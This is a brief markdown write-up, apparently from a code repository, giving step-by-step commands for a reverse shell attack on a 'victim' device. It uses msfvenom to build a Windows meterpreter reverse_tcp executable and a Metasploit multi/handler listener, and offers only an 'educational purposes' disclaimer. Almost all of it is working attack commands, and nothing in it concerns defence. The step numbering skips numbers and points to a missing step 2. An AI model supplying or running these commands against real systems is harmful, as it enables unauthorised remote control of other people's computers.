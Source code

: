 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack

1. **Check if the victim's IP is up.**
	`ping [IP]`

3. **Create a folder with a basic name and get into that folder.**
	`mkdir [folder-name] && cd [folder-name]`

4. **On the folder created previously execute the command below:**
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe`

5. **Open metasploit and execute this command:** 
	`use exploit/multi/handler`

7. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	`set payload windows/meterpreter/reverse_tcp`

9. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	`set LHOST (YOUR IP)`
	`set LPORT 5555`

11. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	`exploit`
